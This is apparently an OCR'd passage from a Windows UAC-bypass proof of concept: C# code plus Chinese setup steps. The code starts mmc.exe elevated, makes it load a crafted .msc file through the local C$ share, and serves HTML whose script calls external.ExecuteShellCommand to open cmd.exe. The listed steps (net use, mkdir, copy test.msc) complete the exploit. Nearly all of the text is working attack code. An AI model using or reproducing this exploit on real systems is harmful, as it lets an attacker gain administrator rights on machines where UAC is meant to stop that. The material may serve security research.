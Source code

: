 ```
            
            string requestText = Encoding.UTF8.GetString(data, 0, length);
            Console.WriteLine(requestText);
            byte[] body = Encoding.UTF8.GetBytes("<html><head><script>external.ExecuteShellCommand(\"cmd.exe\",\"C:\",\"\",\"Restored\");</script></head></html>");
            //byte[] head = Encoding.UTF8.GetBytes("HTTP/1.1 200 OK\nContent-Type: text/html\nConnection: Close\n\n");
            //socket.Send(head);
            socket.Send(body);
                //i = i + 1;

            socket.Shutdown(SocketShutdown.Both);
            socket.Close();

        }

        static void Main(string[] args)
        {
            try
            {
                StartFlags flags = StartFlags.RunAsAdmin;
                List<string> cmds = new List<string>(args);

                string executable = "C:\\Windows\\System32\\mmc.exe";
                string commandline = "XXX,wf.msc \"\\\\127.0.0.1\\C$\\testmscdir\\test.msc\"";
                
                using (var proc = LaunchAdminProcess(executable, commandline, flags, CreateProcessFlags.UnicodeEnvironment, @"WinSta0\Default"))
                {
                    Console.WriteLine("Start process {0}", proc.ProcessId);
                    Console.WriteLine("Granted Access: {0}", proc.GrantedAccess);
                }
                OpenWebServer();
            }
            catch (Exception ex)
            {
                Console.WriteLine(ex);
            }

        }
    }
}
```

过程为

- `net use \\127.0.0.1\c$` 为了能在commandline参数中使用unc路径连接到我们的msc文件
- `mkdir c:\testmscdir`  同上，只要和commandline参数保持一致即可
- `copy test.msc c:\testmscdir`  复制过去
- 执行程序

